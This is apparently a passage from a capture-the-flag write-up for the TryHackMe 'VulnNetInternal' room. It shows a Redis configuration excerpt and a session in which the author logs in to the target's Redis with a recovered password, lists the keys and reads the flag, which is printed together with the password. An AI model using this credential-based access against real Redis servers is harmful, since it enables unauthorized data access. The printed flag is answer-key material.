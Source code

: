 ```bash
...
# cluster-require-full-coverage yes
...
# cluster-slave-no-failover no
### CLUSTER DOCKER/NAT support
...
# * cluster-announce-ip
# * cluster-announce-port
# * cluster-announce-bus-port
...
# Example:
# cluster-announce-ip 10.1.1.5
# cluster-announce-port 6379
# cluster-announce-bus-port 6380
### SLOW LOG
# slowlog-log-slower-than 10000
...
slowlog-max-len 128
### LATENCY MONITOR
latency-monitor-threshold 0
### EVENT MODIFICATION
notify-keyspace-events ""
### ADVANCED CONFIG
hash-max-ziplist-value 64
..
list-max-ziplist-size -2
...
list-compress-depth 0
...
set-max-intset-entries 512
...
zset-max-ziplist-entries 128
zset-max-ziplist-value 64
...
hll-sparse-max-bytes 3000
...
activerehashing yes
...
client-output-buffer-limit normal 0 0 0
client-output-buffer-limit slave 256mb 64mb 60
client-output-buffer-limit pubsub 32mb 8mb 60
...
hz 10
### ACTIVE DEFRAGMENTATION
...
```

<p>Accessed <code>redis</code>, and discovered the second flag.</p>

```bash
:~/VulnNetInternal# sudo apt-get install redis-tools
...
:~/VulnNetInternal# redis-cli -h Target_IP -a 'B65Hx562F@ggAZ@F'
Warning: Using a password with '-a' or '-u' option on the command line interface may not be safe.
Target_IP:6379> KEYS *
1) "marketlist"
2) "int"
3) "internal flag"
4) "tmp"
5) "authlist"
Target_IP:6379> KEYS "internal flag"
1) "internal flag"
Target_IP:6379> GET "internal flag"
"THM{ff8e518addbbddb74531a724236a8221}"
```